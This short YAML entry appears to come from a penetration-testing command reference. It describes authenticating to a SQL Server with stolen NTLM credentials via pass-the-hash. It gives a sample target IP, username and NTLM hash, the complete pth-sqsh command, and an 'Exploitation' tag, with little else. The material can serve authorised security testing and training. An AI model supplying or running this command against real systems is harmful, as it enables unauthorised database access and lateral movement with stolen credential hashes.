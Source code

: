 ```yaml
---
description: Connect to a remote SQL Server instance using sqsh with NTLM Pass-the-Hash authentication.

Command Reference:
    Target IP: 10.10.10.1
    Domain: N/A
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  pth-sqsh -S 10.10.10.1 -U john%00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396

items:
  - Hash

services:
  - NTLM

OS:
  - Windows

attack_types:
  - Exploitation

references:
  - http://www.sqsh.org/
  - https://github.com/byt3bl33d3r/pth-toolkit
  - https://learn.microsoft.com/en-us/sql/sql-server/?view=sql-server-ver16
---
```

